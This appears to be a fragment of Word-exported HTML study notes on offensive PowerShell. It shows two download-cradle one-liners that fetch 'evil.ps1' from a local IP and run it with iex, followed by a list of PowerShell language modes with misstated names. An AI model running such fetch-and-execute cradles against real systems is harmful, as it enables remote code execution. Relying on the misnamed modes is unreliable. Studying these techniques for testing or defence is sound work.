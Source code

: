 <p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PSv3
onwards:<span style='mso-spacerun:yes'>  </span>-<span class=SpellE>iex</span>
(<span class=SpellE>iwr</span> '<a href="http://192.168.230.1/evil.ps1">http://192.168.230.1/evil.ps1</a>')<o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>$h=New-Object
-<span class=SpellE>ComObject</span> <span class=GramE>Msxml2.XMLHTTP;$</span>h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$<span class=SpellE>h.responseText</span><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=743 height=274
src="test_files/image005.jpg"
alt="A white rectangular object with text&#10;&#10;Description automatically generated with medium confidence"
v:shapes="Picture_x0020_98"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><b><span lang=EN-IN style='mso-ansi-language:EN-IN'>PowerShell
has 4 language mode</span></b><span lang=EN-IN style='mso-ansi-language:EN-IN'><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<ul style='margin-top:0in' type=disc>
 <li class=MsoNormal style='mso-list:l2 level1 lfo3;tab-stops:list .5in'><span
     lang=EN-IN style='mso-ansi-language:EN-IN'>No language<o:p></o:p></span></li>
 <li class=MsoNormal style='mso-list:l2 level1 lfo3;tab-stops:list .5in'><span
     lang=EN-IN style='mso-ansi-language:EN-IN'>Constant Language<o:p></o:p></span></li>
 <li class=MsoNormal style='mso-list:l2 level1 lfo3;tab-stops:list .5in'><span
     lang=EN-IN style='mso-ansi-language:EN-IN'>Restricted language<o:p></o:p></span></li>
 <li class=MsoNormal style='mso-list:l2 level1 lfo3;tab-stops:list .5in'><span
     lang=EN-IN style='mso-ansi-language:EN-IN'>Full language mode <o:p></o:p></span></li>
</ul>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=724 height=316
src="test_files/image007.jpg"
alt="A screenshot of a computer&#10;&#10;Description automatically generated"
v:shapes="Picture_x0020_97"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=741 height=262
src="test_files/image009.jpg"
alt="A white and brown sign with black text&#10;&#10;Description automatically generated"
v:shapes="Picture_x0020_96"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>
